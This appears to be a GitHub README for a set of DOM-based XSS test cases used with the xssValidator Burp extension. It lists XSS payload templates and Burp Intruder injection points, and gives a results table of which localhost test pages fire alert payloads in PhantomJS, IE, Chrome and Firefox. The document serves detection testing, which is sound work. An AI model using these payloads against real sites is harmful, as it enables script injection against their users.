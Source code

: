 xssValidatorTestCases
=====================

A set of test case scripts for xssValidator Burp Extension - version extended with DOM based XSS detection.

The following payload set:

";{JAVASCRIPT};"
';{JAVASCRIPT};'
;{JAVASCRIPT};
";{JAVASCRIPT}//
';{JAVASCRIPT}//
1;{JAVASCRIPT}//
;{JAVASCRIPT}//
1jsadif;
'1jsadif;
';1jsadif;
<script>{JAVASCRIPT}</script>
"><script>{JAVASCRIPT}</script>
'><script>{JAVASCRIPT}</script>
<img src="1" onerror="{JAVASCRIPT}">
<img src="1" onerror="{JAVASCRIPT}"
<img src='1' onerror='{JAVASCRIPT}'>
<img src='1' onerror='{JAVASCRIPT}'
<img src=1 onerror={JAVASCRIPT}
<img src=1 onerror={JAVASCRIPT}//
"><img src="1" onerror="{JAVASCRIPT}">
"><img src="1" onerror="{JAVASCRIPT}"
'><img src='1' onerror='{JAVASCRIPT}'>
'><img src='1' onerror='{JAVASCRIPT}'
onerror="{JAVASCRIPT}"
onerror='{JAVASCRIPT}'
onload="{JAVASCRIPT}"
onload='{JAVASCRIPT}'
" onerror="{JAVASCRIPT}"
" onload="{JAVASCRIPT}"'
' onerror='{JAVASCRIPT}'
' onload='{JAVASCRIPT}'

Intruder payloads location:
For all pathname tests (in case of JSP instead of / we would use ;) :		GET /path_to_file.php/§PAYLOAD§ HTTP/1.1
For all hash tests													:		GET /path_to_file.html#§PAYLOAD§ HTTP/1.1
For all search tests												:		GET /path_to_file.html?var=§PAYLOAD§ HTTP/1.1
The test location.* subcases have been splitten into three kinds of injection: double quot, single quot and no quot.

During the tests URL encoding in intruder was off.
The http server used was apache2+php5 on KALI.

Hereby is the summary of test cases along with their status under particular browsers (NOT OK means that no single payload has fired successfully, while OK means that at least one did):

TEST CASE:								PHANTOM (1.9):	IE (9):		Chrome (37):	Firefox(32.0):	URL with valid payload example:
location.hash.htmlinject.dquot.html		[NOT OK]		[OK]		[NOT OK]		[NOT OK] 		http://localhost/domhell/location.hash.htmlinject.dquot.html#"><script>alert(299792458)</script>
location.hash.htmlinject.squot.html		[NOT OK]		[OK]		[NOT OK]		[NOT OK]		http://localhost/domhell/location.hash.htmlinject.squot.html#'<script>alert(299792458)</script>					
location.hash.htmlinject.html			[NOT OK]		[OK]		[OK]			[OK]			http://localhost/domhell/location.hash.htmlinject.html#<img src="1" onerror="alert(299792458)"					
location.hash.jsinject.html				[OK]			[OK]		[OK]			[OK]			http://localhost/domhell/location.hash.jsinject.html#1;alert(299792458)//	
location.hash.jsinject.squot.html		[OK]			[OK]		[OK]			[OK]			http://localhost/domhell/location.hash.jsinject.squot.html#';alert(299792458)//
location.hash.jsinject.dquot.html		[NOT OK]		[OK]		[OK]			[OK]			http://localhost/domhell/location.hash.jsinject.dquot.html#";alert(299792458)//
location.pathname.jsinject.squot.php	[OK]			[OK]		[OK]			[NOT OK]		http://localhost/domhell/location.pathname.jsinject.squot.php/';alert(299792458)//
location.pathname.jsinject.dquot.php	[OK]			[NOT OK]	[NOT OK]		[NOT OK]		http://localhost/domhell/location.pathname.jsinject.dquot.php/";alert(299792458)//
location.pathname.jsinject.php			does not exist (js with no quotes at all injection does not make much sense here - pathinfo always contains letters 
location.pathname.htmlinject.php		[OK]			[NOT OK]	[NOT OK] 		[NOT OK]		http://localhost/domhell/location.pathname.htmlinject.php/<script>alert(299792458)</script>	
location.pathname.htmlinject.squot.php	[OK]			[NOT OK]	[NOT OK]		[NOT OK]		http://localhost/domhell/location.pathname.htmlinject.squot.php/'><script>alert(299792458)</script>
location.pathname.htmlinject.dquot.php  [OK]			[NOT OK]	[NOT OK]		[NOT OK]		http://localhost/domhell/location.pathname.htmlinject.dquot.php/"><script>alert(299792458)</script>
location.search.jsinject.dquot.html		[NOT OK]		[NOT OK]	[NOT OK]		[NOT OK]		http://localhost/domhell/location.search.jsinject.dquot.html?a=";alert(299792458)//
location.search.jsinject.squot.html		[OK]			[OK]		[NOT OK]		[NOT OK]		http://localhost/domhell/location.search.jsinject.squot.html?a=';alert(299792458);'
location.search.jsinject.html			[OK]			[OK]		[OK]			[OK]			http://localhost/domhell/location.search.jsinject.html?a=1;alert(299792458)//
location.search.htmlinject.squot.html	[NOT OK]		[OK]		[NOT OK]		[NOT OK]		http://localhost/domhell/location.search.htmlinject.squot.html?a='><img src='1' onerror='alert(299792458)'
location.search.htmlinject.dquot.html	[NOT OK]		[OK]		[NOT OK]		[NOT OK]		http://localhost/domhell/location.search.htmlinject.dquot.html?a="><img src="1" onerror="alert(299792458)"
location.search.htmlinject.html			[NOT OK]		[OK]		[NOT OK]		[NOT OK]		http://localhost/domhell/location.search.htmlinject.html?a=<img src=1 onerror=alert(299792458)//

Conclusion: we have no impact on how particular browsers and httpds handle data, nevertheless in order to gain highest overall XSS detection accuracy, our goal is to make our JS servers (phantomjs, slimer, others?) attached to xssValidator & Burp Intruder to summary cover as much [OK]-s from this list as possible.
By now we have 7 types of XSS that will work under IE and will still not be detected with this toolset, hopefully with:
- some tuning
- employment of other browse engines (like slimerjs or others)
we will get the summary undetectable case rate close to 0 :)
